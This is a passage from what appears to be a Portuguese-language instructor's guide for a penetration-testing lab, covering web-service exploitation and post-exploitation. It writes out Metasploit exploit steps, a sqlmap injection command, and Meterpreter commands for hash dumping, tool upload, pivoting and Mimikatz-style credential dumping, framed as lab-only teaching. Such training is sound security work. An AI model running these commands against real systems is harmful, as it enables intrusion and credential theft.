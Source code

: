**Observações:**

* Se o exploit falhar, verifique firewall, versão/arquitetura do Windows e conectividade.
* Explique aos alunos o propósito de `check` — evita executar explorações desnecessárias.

---

## 8. Exploração de serviços web (exemplo)

Se a VM possuir um servidor web (Apache) vulnerável, procure módulos adequados:

No `msfconsole`:

```bash
search apache type:exploit
use exploit/multi/http/<modulo_encontrado>
set RHOSTS 192.168.0.1
set LHOST 192.168.56.100
exploit
```

Para vulnerabilidades de injeção em aplicações web, use `sqlmap` (fora do Metasploit), com um exemplo básico:

```bash
sqlmap -u "http://192.168.0.1/vulnerable.php?id=1" --dbms=mssql --dbs
```

---

## 9. Pós-exploração: atividades e comandos úteis

**Objetivo:** demonstrar coleta de informações e técnicas de pivot, sempre no laboratório.

No Meterpreter (após abrir sessão):

```bash
getuid            # ver usuário atual
sysinfo           # info do sistema remoto
hashdump          # extrai hashes (requer privilégios)
upload /path/tool.exe # enviar ferramenta para o host remoto (uso controlado)
```

**Pivot / port forwarding:**

```bash
portfwd add -l 8080 -p 80 -r 192.168.0.1
# Em Kali: acessar http://localhost:8080 para ver o serviço remoto via túnel
```

**Dump de credenciais (exemplo didático):**

* Em laboratório, usar módulos pós-exploração como `load kiwi` (equivalente a Mimikatz dentro do Meterpreter) para demonstrar como credenciais podem ser coletadas — sempre enfatizando impacto e contramedidas.

---
